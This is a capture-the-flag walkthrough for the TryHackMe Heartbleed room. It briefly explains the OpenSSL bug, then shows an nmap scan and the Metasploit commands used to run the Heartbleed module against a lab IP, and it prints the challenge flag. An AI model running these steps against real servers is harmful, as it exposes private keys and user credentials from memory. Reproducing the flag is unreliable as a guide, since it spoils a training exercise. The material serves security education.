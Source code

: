 #Heartbleed

Room [Heartbleed](https://tryhackme.com/room/heartbleed) on TryHackMe

<h2></h2>

<h3>Introduction to Heartbleed and SSL/TLS</h3>

- Heartbleed is a bug in OpenSSL 1.0.1 to 1.0.1f.
- It lets a user reach server memory they shouldn't.
- This helps a hacker get sensitive info like the server's private key and personal data like usernames and passwords.

<h2></h2>

<h3>Make a Directory for the Exercise</h3>

Make a directory with the room name in your TryHackMe Folder.

`cd Desktop/Tryhackme`

- Change a new directory call "Heartbleed".

`mkdir Heartbleed`

- Change directory into Heartbleed.

`cd Heartbleed/`

<p align="center">
<br/>
<img src="https://i.imgur.com/YcaZhtB.png" height="90%" width="90%" alt=""/>
<br />

<h2></h2>

In this CTF exercise, we will be using the Heartbleed payload in the `msfconsole` to capture the flag.

- Connect to TryHackMe network and deploy the machine.

- Gathering information from the target machine with Nmap command.

On Terminal: `nmap -sC -sV -oN nmap_initial.txt 34.253.209.9`

- `nmap`: This is the command used to run the Nmap tool.
- `-sC`: To perform script scanning.
- `-sV`: To detect the version of services.
- `-oN nmap_initial.txt`: To save the scan results in a file named "nmap_initial.txt."
- The target IP address is `34.253.209.9`.

<p align="center">
<br/>
<img src="https://i.imgur.com/Zh7084T.png" height="90%" width="90%" alt=""/>
<br />

Use `Mousepad` to put down the notes.

- nmap scanned three port opened:
  - Port: 22 TCP ssh
  - Port: 111 TCP rpcbind
  - Port: 443 TCP ssl/http
 
<h2></h2>

We will use msfconsole to exploit the target machine.

On Terminal: `msfconsole`

<p align="center">
<br/>
<img src="https://i.imgur.com/AO9GmR9.png" height="90%" width="90%" alt=""/>
<br />

Now msf6 is open we will search for the heartbleed exploit.

On Terminal: `search heartbleed`

- There are two options for the heartbleed exploit.

<p align="center">
<br/>
<img src="https://i.imgur.com/ul3dsWm.png" height="90%" width="90%" alt=""/>
<br />

We will use option 1 for the scanner to see if the target machine is exploitable. 

On Terminal: `use 1`
On Terminal: `show options`

- We can see that the "RHOSTS" is empty, so we can try to exploit it by putting in the target machine's IP Address.

<p align="center">
<br/>
<img src="https://i.imgur.com/KGvdX37.png" height="90%" width="90%" alt=""/>
<br />

We will set the Rhost to be the target machine.

On Terminal: `set RHOSTS 34.253.209.9`

<p align="center">
<br/>
<img src="https://i.imgur.com/D3cYMbi.png" height="90%" width="90%" alt=""/>
<br />

We will also set "Verbose" to true because we will need to be reading from the memory so need verbose to be "true".

On Terminal: `set VERBOSE true`

<p align="center">
<br/>
<img src="https://i.imgur.com/58zJW1j.png" height="90%" width="90%" alt=""/>
<br />

The payload is all set up, now we will run it.

On Terminal: `run`

- We have successfully capture the flag.

Flag: `THM{sSl-Is-BaD}`

<p align="center">
<br/>
<img src="https://i.imgur.com/43d7iA3.png" height="90%" width="90%" alt=""/>
<br />
